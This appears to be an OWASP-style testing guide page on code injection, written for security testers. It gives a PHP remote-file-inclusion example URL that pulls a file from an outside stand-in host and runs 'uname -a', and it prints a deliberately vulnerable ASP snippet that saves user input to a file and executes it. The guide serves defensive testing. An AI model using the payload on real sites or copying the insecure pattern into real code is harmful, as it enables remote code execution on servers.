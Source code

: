 # Testing for Code Injection

## Summary

This section describes how a tester can check if it is possible to enter code as input on a web page and have it executed by the web server.

In [Code Injection](https://www.owasp.org/index.php/Code_Injection) testing, a tester submits input that is processed by the web server as dynamic code or as an included file. These tests can target various server-side scripting engines, e.g.., ASP or PHP. Proper input validation and secure coding practices need to be employed to protect against these attacks.

## How to Test

### Black Box testing

#### Testing for PHP Injection vulnerabilities

Using the querystring, the tester can inject code (in this example, a malicious URL) to be processed as part of the included file:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> The malicious URL is accepted as a parameter for the PHP page, which will later use the value in an included file.

### Gray Box testing

#### Testing for ASP Code Injection vulnerabilities

Examine ASP code for user input used in execution functions. Can the user enter commands into the Data input field? Here, the ASP code will save the input to a file and then execute it:

```asp
<%
If not isEmpty(Request( “Data” ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject(“Scripting.FileSystemObject”)
Set f = fso.OpenTextFile(Server.MapPath( “data.txt” ), 8, True)
f.Write Request(“Data”) & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( “data.txt” )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### References

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipedia](http://www.wikipedia.org)
- [Reviewing Code for OS Injection](https://www.owasp.org/index.php/OS_Injection)
